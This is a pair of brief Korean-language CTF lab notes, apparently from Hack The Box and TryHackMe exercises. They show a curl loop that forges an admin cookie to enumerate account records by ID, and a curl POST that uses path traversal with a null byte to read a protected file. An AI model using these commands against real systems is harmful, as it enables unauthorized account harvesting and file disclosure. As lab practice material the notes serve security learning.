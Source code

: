 curl
#
`10.129.95.191/cdn-cgi/login/admin.php는 id 번호로 접근할 수있다. curl명령어로 반복문을 돌려 사용중인 계정정보를 얻을 수 있었다.`

```
for i in {1..100}; do echo "===" $i "==="; curl -s -b "user=34322; role=admin" "http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id="$i | grep --color=no -i email | sed -e 's/<[^>]*>/ /g;s/Access ID  Name//g;s/Email//g;s/^[ ]*//;s/[ ]*$//'; done
```

![image](https://user-images.githubusercontent.com/61821641/149963242-251d0def-b740-489b-aaaf-4c97f859cab9.png)

#
[필터링되는 POST url에 output 받기](https://gitlab.com/sjcode101/write-up/-/blob/main/write-up/thm-fileinc.md)
```
curl -X POST http://10.10.62.101/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output -
```
